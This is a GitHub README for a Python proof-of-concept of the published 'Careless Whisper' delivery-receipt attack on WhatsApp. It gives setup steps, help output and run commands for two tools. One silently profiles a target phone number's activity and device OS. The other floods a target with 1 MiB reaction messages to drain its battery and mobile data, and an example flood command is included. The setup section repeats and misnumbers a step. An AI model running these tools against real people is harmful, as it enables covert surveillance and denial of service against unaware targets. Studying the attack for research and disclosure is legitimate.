


# Careless Whisper - Delivery Receipt Timing Exploit Analyzer

The exploit abuses delivery receipts in end-to-end encrypted messaging applications. Because delivery receipts are generated only after a message is successfully decrypted, their timing can be analyzed to infer user activity—for example, whether a device is online or offline. The attack can be carried out silently, without triggering any visible notifications, because insufficient server-side validation allows an attacker to send “reaction” messages referencing non-existent message IDs within a chat. Using the same mechanism, the attacker can also cause a denial-of-service condition by repeatedly triggering operations that consume device resources such as CPU, battery, and able to drain 13.3 GB per hour of mobile data.

> [!NOTE]
> This repository contains a proof-of-concept implementation of the Careless Whisper attack in Python. It is intended for educational and research purposes only. Please ensure you have permission to test against any target phone numbers and comply with all applicable laws and regulations. All credits for the discovery of this exploit go to the original authors listed in the [Credits section](#credits).

> [!TIP]
> This attack is known to work on WhatsApp and Signal as of December 2025.

## Setup

1. Clone the repository:

    ```sh
    git clone https://github.com/ctrlsam/careless-whisper-python.git
    cd careless-whisper-python
    ```

2. Install the system libraries required by `neonize` (WhatsApp backend):

    ```sh
    # macOS (Homebrew)
    brew install libmagic ffmpeg

    # Debian / Ubuntu
    sudo apt-get install -y libmagic1 ffmpeg
    ```

2. Install [uv](https://docs.astral.sh/uv/) (the project uses uv to manage
   dependencies and run the different tools):

    ```sh
    # macOS (Homebrew)
    brew install uv

    # Or the standalone installer
    curl -LsSf https://astral.sh/uv/install.sh | sh
    ```

3. Install the system libraries required by `neonize` (WhatsApp backend):

    ```sh
    # macOS (Homebrew)
    brew install libmagic ffmpeg

    # Debian / Ubuntu
    sudo apt-get install -y libmagic1 ffmpeg
    ```

4. Install the project and its dependencies:

    ```sh
    uv sync
    ```

## Tools

The project ships multiple tools, each exposed as a uv-run command:

| Command | Description |
| --- | --- |
| `uv run cw-cli` | Interactive CLI |
| `uv run cw-fingerprint` | Fingerprint tool (standalone argparse entry point) |
| `uv run cw-dos` | Denial-of-service silent message flood tool |

The same commands are wrapped by the Makefile: `make cli`, `make fingerprint`,
and `make dos`.

## Running the CLI Tool

The CLI tool allows you to interactively run the careless whisper exploit against a target phone number.



#### Fingerprint Command

To run the fingerprinting analysis with an interactive UI, use the following command:

```sh
$ uv run carelesswhisper fingerprint --help 

usage: carelesswhisper fingerprint [-h] --phone-number PHONE_NUMBER [--provider PROVIDER] [--delay DELAY] [--concurrent CONCURRENT] [--exporter EXPORTER] [--metrics] [--metrics-port METRICS_PORT] [--ignore-unregistered]

options:
  -h, --help            show this help message and exit
  --phone-number PHONE_NUMBER, -p PHONE_NUMBER
                        Target phone number for fingerprinting
  --provider PROVIDER   Messenger provider to use (default: whatsapp)
  --delay DELAY         Delay between requests in seconds (default: 1.0)
  --concurrent CONCURRENT
                        Number of concurrent requests (default: 5)
  --exporter {csv,jsonl,sqlite}
                        Exporter for saving results and analysis snapshots
  --metrics             Enable Prometheus metrics server
  --metrics-port METRICS_PORT
                        Port for the Prometheus metrics server (default: 8000)
  --ignore-unregistered
                        Ignore warning for unregistered phone numbers
``` 

## Running the DoS Tool

The DoS tool floods a target with silent reaction messages using the same
mechanism as the fingerprint tool, but each message carries a 1 MiB reaction
payload and is sent at high concurrency with no receipt tracking. This forces
the target device to download and decrypt large volumes of data per message,
driving excessive CPU, battery, and mobile data consumption.

> [!CAUTION]
> Only run this against devices you own or have explicit permission to test.

```sh
$ uv run cw-dos --help

usage: cw-dos [-h] --phone-number PHONE_NUMBER [--provider PROVIDER] [--concurrent CONCURRENT] [--delay DELAY] [--duration DURATION] [--max-messages MAX_MESSAGES] [--bytes-per-message BYTES_PER_MESSAGE] [--report-interval REPORT_INTERVAL] [--ignore-unregistered]

options:
  -h, --help            show this help message and exit
  --phone-number PHONE_NUMBER, -p PHONE_NUMBER
                        Target phone number to flood
  --provider PROVIDER   Messenger provider to use (default: whatsapp)
  --concurrent CONCURRENT
                        Number of concurrent flood workers (default: 10)
  --delay DELAY         Delay between messages per worker in seconds (default: 0.0)
  --duration DURATION   Stop after this many seconds (default: run until interrupted)
  --max-messages MAX_MESSAGES
                        Stop after sending this many messages (default: unlimited)
  --payload-size PAYLOAD_SIZE
                        Size in bytes of each reaction payload (default: 1048576 = 1 MiB)
  --report-interval REPORT_INTERVAL
                        How often to log flood progress in seconds (default: 5.0)
  --ignore-unregistered
                        Ignore warning for unregistered phone numbers
```

Example: flood a target for 60 seconds with 20 workers.

```sh
uv run cw-dos --phone-number <number> --concurrent 20 --duration 60
```

## Supported Messengers

- WhatsApp
- Signal (coming soon)

## Exporters

- CSV - raw receipt timestamps and RTT values; receipt evidence in a sibling
  `*_delays.receipts.jsonl` file
- JSON Lines - RTT reports, protocol receipt batches, outgoing message metadata,
  and full analysis snapshots
- SQLite - queryable `receipts`, `analyses`, `receipt_events`, and `sent_messages`
  tables (existing databases gain the new tables automatically)
- Prometheus - live analysis metrics for Grafana

## Device OS identification

Device OS identification uses observed WhatsApp receipt behaviour from
[Careless Whisper, Section V-D and Table V](https://arxiv.org/html/2411.11194v4#S5.SS4),
not RTT thresholds. Separate delivery receipts followed by a stacked read receipt
in reverse send order match the paper's iOS pattern. Natural read order matches
its Android pattern. Neither identifies a phone model or Android manufacturer.
These are pattern matches from the paper, not guarantees across client versions.

The collector preserves each receipt's message IDs in their original order,
receipt type, sender JID, device index, and local receipt time. It also observes
outgoing message IDs and timestamps for the selected chat, without saving message
content. Only primary-device receipts (device index 0) establish the phone's OS;
linked-device receipts are exported separately and cannot identify the phone.
Normal chat messages do not contribute to probe RTT statistics.

To collect evidence on your own test phone:

1. Start the fingerprint tool with an exporter before sending the test messages.
2. With the receiving phone offline, manually send at least three ordinary,
   visible messages from the WhatsApp account paired with the tool. Space them
   more than one second apart so their observed timestamps establish send order.
3. Reconnect the receiving phone, then open the conversation on that phone with
   read receipts enabled. The tool updates analysis when the receipt batch arrives,
   including when outgoing message metadata arrives after the receipt.

The three-message minimum is an implementation safeguard, not a threshold from
the paper. Classification requires separate delivery evidence for every message
in an ordered read batch. Missing send metadata, tied timestamps, conflicting
ordering, or insufficient evidence leave the OS as `Unknown`. Analysis retains
the latest 1,000 receipt events and 10,000 outgoing message records in memory;
exports retain the collected history. Device confidence is a support score
(`matching batches / (matching batches + 1)`), not a calibrated accuracy estimate.
Duplicate read batches do not increase that score.

Silent reactions to nonexistent messages do not supply the ordinary conversation
read receipts needed to distinguish iOS from Android. The tool does not send the
visible test messages automatically. Existing two-column RTT CSV captures remain
usable for timing analysis but cannot establish a device OS.

## Grafana Dashboard

A Grafana dashboard is available for the inferred screen, application, and
connectivity timelines. It also shows device profile information, analysis
confidence, companion devices, RTT, and estimated data and battery impact.
To access the dashboard locally, run:

```sh
make start-dev
# Wait for the services to start
# Access Grafana at http://localhost:3000
```

Run the CLI with metrics enabled so Prometheus can collect the analysis:

```sh
uv run carelesswhisper fingerprint \
  --phone-number <number> \
  --metrics \
  --exporter sqlite
```



> The default login credentials are `admin` for both username and password.

## Credits

This exploit was discovered by Gabriel Karl Gegenhuber, Maximilian Günther, Markus Maier, Aljosha Judmayer, Florian Holzbauer, Philipp É Frenzel, and Johanna Ullrich in their paper "Careless Whisper: Exploiting Silent Delivery Receipts to Monitor Users on Mobile Instant Messengers" (2025).

```bibtex
@article{gegenhuber2025careless,
  title={Careless Whisper: Exploiting Silent Delivery Receipts to Monitor Users on Mobile Instant Messengers},
  author={Gegenhuber, Gabriel Karl and G{\"u}nther, Maximilian and Maier, Markus and Judmayer, Aljosha and Holzbauer, Florian and Frenzel, Philipp {\'E} and Ullrich, Johanna},
  year={2025}
}
```
